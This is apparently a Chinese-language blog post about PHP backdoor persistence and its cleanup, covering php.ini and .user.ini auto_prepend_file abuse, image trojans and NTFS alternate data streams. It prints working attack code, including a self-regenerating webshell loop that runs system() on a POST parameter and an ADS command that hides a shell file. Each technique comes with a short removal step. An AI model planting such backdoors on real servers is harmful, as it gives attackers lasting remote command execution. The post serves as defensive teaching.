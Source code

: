 ```yaml
---
layout: post
title : php常见漏洞攻防
#二级标题
subtitle : php.ini、ADS、图片木马、.user.ini
author : Bert
header-img: img/post-bg-miui6.jpg
catalog : true
date : 2021-12-21 20:23
tags :
 - web安全
 - php安全
---
```


### php后门

> php常见后门

#### php.ini

> 利用php.ini 的auto_prepend_file 和 include_path
>
> 解决办法:检查ini文件,删除后门文件重启

- 首先上官网介绍:![php-security](https://bertgo.github.io/img/code-img/php-security.png)在php加载之前,首先加载auto_prepend_file的文件,auto_append_file则是在php运行结束后,加载指定的文件

- 示例:![image-20211221204130490](https://bertgo.github.io/img/code-img/image-20211221204130490.png)![image-20211221204500181](https://bertgo.github.io/img/code-img/image-20211221204500181.png) 

  test.php文件内容:![image-20211221213638683](https://bertgo.github.io/img/code-img/image-20211221213638683.png)

  我的index.php文件内容:![image-20211221205225412](C:/Users/Administrator/AppData/Roaming/Typora/typora-user-images/image-20211221205225412.png)

  运行结果:![image-20211221205719990](https://bertgo.github.io/img/code-img/image-20211221205719990.png)
#### 图片木马

> 解决办法:waf扫描,检查后门

- 放个图片木马:![image-20211221214513218](https://bertgo.github.io/img/code-img/image-20211221214513218.png)

  改名1.jpg:![image-20211221214532259](https://bertgo.github.io/img/code-img/image-20211221214532259.png)

  然后用后门文件包含:![image-20211221214635442](C:/Users/Administrator/AppData/Roaming/Typora/typora-user-images/image-20211221214635442.png)

  运行: ![image-20211221214709171](https://bertgo.github.io/img/code-img/image-20211221214709171.png)

#### 利用ads隐藏文件 

> NTFS交换数据流（Alternate　Data　Streams，简称 ADS）是 NTFS 磁盘格式的一个特性，在 NTFS文件系统下，每个文件都可以存在多个数据流。通俗的理解，就是其它文件可以“寄宿”在某个文件身上，而在资源管理器中却只能看到宿主文件，找不到寄宿文件。利用ADS 数据流，我们可以做很多有趣的事情。(我抄的)

- 命令行创建一个寄宿文件,比如index.php是我已有的文件:

  ```shell
  echo ^ > index.php:shell.jpg
  ```

- 这样就生成了一个正常情况看不见的文件:![image-20211222221828447](https://bertgo.github.io/img/code-img/image-20211222221828447.png)

- 使用dir /r 查看:![image-20211222222009768](https://bertgo.github.io/img/code-img/image-20211222222009768.png)

- 此时这个index.php:shell.jpg是寄宿于index.php的,我们现在给index.php改个名字:![image-20211222222300808](C:/Users/Administrator/AppData/Roaming/Typora/typora-user-images/image-20211222222300808.png)

  所以,**想删除寄宿文件,删除原文件即可**:

  ![image-20211222222442937](https://bertgo.github.io/img/code-img/image-20211222222442937.png)

#### php环境变量留马

- 同上面差不多,就不多说了,检查时记得检查include_path 这个位置有没有马 ![image-20211222222941432](https://bertgo.github.io/img/code-img/image-20211222222941432.png)

#### 不死马

- 运行后,会删除自身,生成一个新的webshell.php,被删除后还会继续生成:

  ```php
  <?php
  set_time_limit(0);
  ignore_user_abort(1);
  unlink(__FILE__);
  while(1){
      file_put_contents('webshell.php','<?php system($_POST["bert8848"])?>');
      sleep(5);
  }
  ```

- ![image-20211222224435017](https://bertgo.github.io/img/code-img/image-20211222224435017.png)

- 解决办法:覆盖重写,或者重启web服务后,删掉即可

  ```php
  <?php
  set_time_limit(0);
  ignore_user_abort(1);
  unlink(__FILE__);
  while(1){
      file_put_contents('webshell.php', 'clear it');
      sleep(5);
  }
  ```

#### php利用.user.ini

> 原文地址:http://drops.wooyun.org/tips/3424

- 这得从php.ini说起了。php.ini是php默认的配置文件，其中包括了很多php的配置，这些配置中，又分为几种：`PHP_INI_SYSTEM`、`PHP_INI_PERDIR`、`PHP_INI_ALL`、`PHP_INI_USER`。 在此可以查看：http://php.net/manual/zh/ini.list.php 这几种模式有什么区别？看看官方的解释：

  ![enter image description here](https://bertgo.github.io/img/code-img/2014103002272568560.png)

  其中就提到了，模式为PHP_INI_USER的配置项，可以在ini_set()函数中设置、注册表中设置，再就是.user.ini中设置。 这里就提到了.user.ini，那么这是个什么配置文件？那么官方文档在[这里](http://php.net/manual/zh/configuration.file.per-user.php)又解释了：

  除了主 php.ini 之外，PHP 还会在每个目录下扫描 INI 文件，从被执行的 PHP 文件所在目录开始一直上升到 web 根目录（`$_SERVER['DOCUMENT_ROOT']` 所指定的）。如果被执行的 PHP 文件在 web 根目录之外，则只扫描该目录。

  在 `.user.ini` 风格的 INI 文件中只有具有 PHP_INI_PERDIR 和 PHP_INI_USER 模式的 INI 设置可被识别。

  这里就很清楚了，`.user.ini`实际上就是一个可以由用户“自定义”的php.ini，我们能够自定义的设置是模式为“PHP_INI_PERDIR 、 PHP_INI_USER”的设置。（上面表格中没有提到的PHP_INI_PERDIR也可以在.user.ini中设置）

  实际上，除了`PHP_INI_SYSTEM`以外的模式（包括PHP_INI_ALL）都是可以通过.user.ini来设置的。

  而且，和`php.ini`不同的是，`.user.ini`是一个能被动态加载的ini文件。也就是说我修改了`.user.ini`后，不需要重启服务器中间件，只需要等待`user_ini.cache_ttl`所设置的时间（默认为300秒），即可被重新加载。

  然后我们看到php.ini中的配置项，可惜我沮丧地发现，只要稍微敏感的配置项，都是`PHP_INI_SYSTEM`模式的（甚至是php.ini only的），包括`disable_functions`、`extension_dir`、`enable_dl`等。 不过，我们可以很容易地借助`.user.ini`文件来构造一个“后门”。

  Php配置项中有两个比较有意思的项（下图第一、四个）：

  ![enter image description here](https://bertgo.github.io/img/code-img/2014103002272554789.png)

  `auto_append_file`、`auto_prepend_file`，点开看看什么意思：

  ![enter image description here](https://bertgo.github.io/img/code-img/2014103002272569525.png)

  指定一个文件，自动包含在要执行的文件前，类似于在文件前调用了require()函数。而auto_append_file类似，只是在文件后面包含。 使用方法很简单，直接写在.user.ini中：

  ```nginx
  auto_prepend_file=01.gif
  ```

- 再后面,就和文章开头的php.ini一样了,戳: [php.ini](#php.ini)

